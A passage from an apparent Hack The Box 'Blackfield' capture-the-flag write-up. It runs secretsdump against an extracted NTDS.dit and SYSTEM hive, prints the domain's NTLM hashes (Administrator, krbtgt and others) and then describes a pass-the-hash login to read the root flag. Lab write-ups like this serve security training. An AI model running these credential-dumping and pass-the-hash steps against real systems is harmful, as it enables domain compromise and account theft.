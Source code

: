 Now, back on our local machine, we can use secretsdump to dump the Administrator hash.

```bash
secretsdump.py -ntds ntds.dit -system system local -output hashes.txt
```

Now we can see all the hashes on the domain.

```bash
finlay@kali:~/htb/blackfield$ cat hashes.txt.ntds
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:9e3d10cc537937888adcc0d918813a24:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
...
```

Finally, we can login to the box as Administrator using pass the hash.

![admin_shell](/assets/img/posts/blackfield/admin_shell.png)

## Root.txt

And we find the root flag in C:/Users/Administrator/Desktop

![admin_flag](/assets/img/posts/blackfield/admin_flag.png)
